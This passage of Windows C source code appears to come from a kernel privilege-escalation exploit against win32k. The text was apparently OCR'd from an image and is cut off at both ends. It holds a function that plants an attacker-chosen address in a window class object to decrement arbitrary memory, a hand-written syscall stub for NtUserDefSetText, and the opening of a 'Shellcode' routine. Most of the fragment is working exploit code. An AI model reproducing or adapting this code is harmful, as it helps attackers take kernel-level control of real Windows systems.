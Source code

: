         }
        __except (EXCEPTION_EXECUTE_HANDLER)
        {
        }
    }

    return NULL;
}

VOID ArbDecByOne(DWORD addr)
{
    *(DWORD *)(originalCLS + 0x58) = addr - 0x4;
}

typedef struct _LARGE_UNICODE_STRING
{
    ULONG Length;
    ULONG MaximumLength : 31;
    ULONG bAnsi : 1;
    PWSTR Buffer;
} LARGE_UNICODE_STRING, *PLARGE_UNICODE_STRING;

VOID RtlInitLargeUnicodeString(
    PLARGE_UNICODE_STRING plstr,
    LPCWSTR psz,
    UINT cchLimit)
{
    ULONG Length;

    plstr->Buffer = (PWSTR)psz;
    plstr->bAnsi = FALSE;
    if (psz != NULL)
    {
        Length = wcslen(psz) * sizeof(WCHAR);
        plstr->Length = min(Length, cchLimit);
        plstr->MaximumLength = min((Length + sizeof(UNICODE_NULL)), cchLimit);
    }
    else
    {
        plstr->MaximumLength = 0;
        plstr->Length = 0;
    }
}

__declspec(naked) BOOL NTAPI NtUserDefSetText(
    IN HWND hwnd,
    IN PLARGE_UNICODE_STRING pstrText OPTIONAL)
{
    __asm
    {
        mov     eax, 116Dh
	mov     edx, 7FFE0300h	
	call    dword ptr [edx]
	retn    8
    }
}

// the Window Procedure
LRESULT CALLBACK WndProc(HWND hwnd, UINT msg, WPARAM wParam, LPARAM lParam)
{

    return DefWindowProc(hwnd, msg, wParam, lParam);
}

void *kernelHandle;
__declspec(noinline) int Shellcode()
{
    // return MessageBoxA(NULL,"Boom","boom",0);